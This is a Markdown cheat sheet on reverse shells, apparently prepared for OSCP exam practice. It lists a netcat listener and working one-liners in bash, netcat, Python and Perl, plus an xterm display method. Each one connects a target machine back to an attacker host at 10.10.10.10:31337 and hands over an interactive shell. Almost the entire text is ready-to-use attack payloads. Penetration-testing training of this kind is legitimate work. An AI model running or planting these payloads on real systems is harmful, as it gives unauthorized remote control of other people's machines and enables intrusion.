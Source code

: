 # Reverse Shells

## Catching Reverse Shells

* Because metasploit usage is limited in the OSCP exam, we will stick to basic NetCat receivers

```bash
nc -nvlp 31337
```

## Using Tools Present

* Bash

```bash
bash -i >& /dev/tcp/10.10.10.10/31337 0>&1
```

* Netcat without -e flag

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 31337 >/tmp/f
```

* Netcat with -e flag

```bash
nc -e /bin/bash 10.10.10.10 31337
```

* Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* Perl

```bash
perl -e 'use Socket;$i="10.10.10.10";$p=31337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

* Xterm

```bash
#On target system
xterm -display 10.10.10.10:1

#On Kali
Xnest :1
xhost +<targetip>
```

